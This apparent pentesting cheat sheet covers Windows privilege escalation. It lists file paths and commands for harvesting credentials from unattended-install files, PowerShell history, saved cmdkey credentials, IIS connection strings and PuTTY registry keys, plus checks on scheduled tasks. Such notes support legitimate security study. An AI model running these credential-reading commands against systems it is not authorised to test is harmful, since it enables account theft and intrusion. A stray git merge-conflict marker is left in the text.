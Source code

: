 # Table of content

```{r load_packages, message=FALSE, warning=FALSE, include=FALSE}
library(fontawesome)
```

- [Table of content](#table-of-content)
- [return to index](INDEX.md)
  - [manual](#manual)
    - [Unattended Windows Installations](#unattended-windows-installations)
    - [Powershell History](#powershell-history)
    - [Saved Windows Credentials](#saved-windows-credentials)
    - [IIS Configuration](#iis-configuration)
    - [Retrieve Credentials PuTTY](#retrieve-credentials-putty)
    - [Scheduled Tasks](#scheduled-tasks)
    - [check permissions of a file](#check-permissions-of-a-file)

## manual

### Unattended Windows Installations

you can find some logins in this dir:
    - C:\Unattend.xml
    - C:\Windows\Panther\Unattend.xml
    - C:\Windows\Panther\Unattend\Unattend.xml
    - C:\Windows\system32\sysprep.inf
    - C:\Windows\system32\sysprep\sysprep.xml
<<<<<<< HEAD

[:arrow_up:](#)
=======
>>>>>>> 9e73503 (add 'go to the top' arrows)
  
### Powershell History

you can also check the cmd history using this commands:

- cmd.exe :

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

- powershell.exe :

```cmd
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
[:arrow_up:](#)

### Saved Windows Credentials

this list saved credentials :

```cmd
cmdkey /list
```

change of user:

```cmd
runas /savecred /user:admin cmd.exe
```
[:arrow_up:](#)

### IIS Configuration

you can find config file at this locations:

    - C:\inetpub\wwwroot\web.config
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

and you can use this command:

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
[:arrow_up:](#)

### Retrieve Credentials PuTTY

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
[:arrow_up:](#)

### Scheduled Tasks

get scheduled tasks set:

```cmd
schtasks /query /tn vulntask /fo list /v
```
[:arrow_up:](#)

### check permissions of a file

```cmd
icacls c:\tasks\schtask.bat
```
[:arrow_up:](#)
